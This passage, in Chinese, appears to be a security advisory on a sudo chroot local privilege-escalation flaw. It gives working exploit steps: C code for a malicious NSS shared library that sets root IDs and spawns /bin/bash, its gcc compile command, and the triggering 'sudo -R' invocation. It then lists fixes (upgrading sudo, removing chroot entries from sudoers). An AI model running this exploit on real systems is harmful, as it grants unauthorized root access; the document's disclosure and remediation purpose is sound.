   
  
1. 编译恶意共享库：  

```
cat > $STAGE/woot1337.c <<EOF
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir(&#34;/&#34;);
  execl(&#34;/bin/bash&#34;, &#34;/bin/bash&#34;, NULL);
}
EOF
gcc -shared -fPIC -Wl,-init,woot -o $STAGE/libnss_/woot1337.so.2 $STAGE/woot1337.c

```

  
  
1. 执行漏洞利用：  

```
sudo -R $STAGE/woot woot

```

  
**预期结果**  
：若成功，将获得 
```
root
```

  
 shell。  
  
## 4. 修复建议  
1. **升级 Sudo**  
：安装 **Sudo 1.9.17p1 或更高版本**  
（已修复漏洞）。  
  
1. 下载地址：https://www.sudo.ws/security/advisories/chroot_bug  
  
1. **禁用 chroot 功能**  
（若无法立即升级）：  
  
1. 检查并删除 
```
/etc/sudoers
```

  
 中所有 
```
CHROOT=
```

  
 或 
```
runchroot=*
```
